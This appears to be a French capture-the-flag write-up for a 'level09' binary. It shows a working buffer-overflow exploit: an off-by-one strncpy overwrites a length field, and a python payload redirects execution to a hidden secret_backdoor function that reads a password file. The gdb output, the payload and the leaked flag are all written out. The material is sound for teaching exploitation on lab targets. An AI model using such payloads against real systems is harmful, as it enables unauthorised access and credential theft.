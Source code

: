 # Level09

```shell
$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: Hello
>: Welcome, Hello
>: Msg @Unix-Dude
>>: World
>: Msg sent!
```

On voir qu'il y a une fonction `secret_backdoor` non appele, qui serai tres utile. Notre objectif est de modifier l'`rip` pour mettre l'adresse de cette fonction

```shell
$ gdb level09 -q
Reading symbols from /home/users/level09/level09...(no debugging symbols found)...done.

(gdb) b *main
Breakpoint 1 at 0xaa8

(gdb) run
Starting program: /home/users/level09/level09
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Breakpoint 1, 0x0000555555554aa8 in main ()
(gdb) x/x secret_backdoor
0x55555555488c <secret_backdoor>: 0xe5894855
```

On peut observer qu'il y a un `strncpy(s->username, username, 41)` dans la fonction `set_username` alors que `s->username[40]`. Il va alors reecrire sur `s->i` qui est utiliser dans `strncpy(s->msg, message, s->i)`.

- `LEN_STRUCT + RBP + 4(DEMI_RIP) = 204 <=> 0xcc`

on aura alors une chaine `python -c 'print("A"*40 + "\xcc\n" + "B"*200 + "\x55\x55\x48\x8c"[::-1])'`

On a plus qu'a essayer

```shell
$ (python -c 'print("A"*40 + "\xcc\n" + "B"*200 + "\x55\x55\x48\x8c"[::-1]) + "\ncat /home/users/end/.pass"') | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```

